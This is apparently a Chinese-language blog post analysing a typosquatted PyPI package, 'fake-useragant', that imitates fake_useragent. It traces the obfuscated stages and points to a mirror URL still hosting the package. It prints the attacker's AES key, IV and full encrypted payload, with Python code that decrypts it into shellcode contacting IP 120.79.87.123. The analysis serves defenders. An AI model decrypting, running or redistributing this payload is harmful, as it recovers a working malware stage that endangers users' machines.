

本文最后编辑于 前，其中的内容可能需要更新。
当安装时，就会出现无fake_useragant的信息，这个时候可能就会pip install useragant。但问题就在这里，这里的库被改了名字，正常的ua库应该是fake_useragent。把e改成了a
偷张图
去pypi上找，目前阿里云源上的fake_useragent已经被删除。在豆瓣源上还有
http://pypi.doubanio.com/simple/fake-useragant/
在看到github上源文件的34行调用了一个exit函数
在fake.py文件中找到调用的exit函数。Exit函数中有调用了系统函数taskkill强制终止进程(这里可能是结束当前的进程，执行后面的函数)
这边的urllib2也是自己重写了

这里把pickle 重命名了为json。
然后解密，发现了一个地址。下载之后
是一个伪造的图片(加了一个gif89a的头)
base64.decodebytes解密即可。再次解密

最后去掉下面的注释
找到本机和120.79.87.123进行了ping通信。后续可能是服务器断了。没有进一步操作。弹回去的操作或者什么的？
1
2
3
4
5
6
7
| import ctypes
import base64
import pickle as json
from Crypto.Cipher import AES
from pwn import *
b=AES.new(b'LKspYP9HJNzj7RtE4Dcd8UF2ZikIov0=',AES.MODE_CBC,b'fljtMD3vC5GU0VLg').decrypt(base64.decodebytes(b'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'+b'='*(len(b'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')%4))).rstrip(b'\\0')
print(disasm(asm(shellcraft.linux.open(b))))
|
最后加载shellcode的方式参见
https://blog.csdn.net/solitudi/article/details/115283329
参考文章：
https://cn-sec.com/archives/1199077.html
https://mp.weixin.qq.com/s/EC3yc5qE1gury2-_Re7XPQ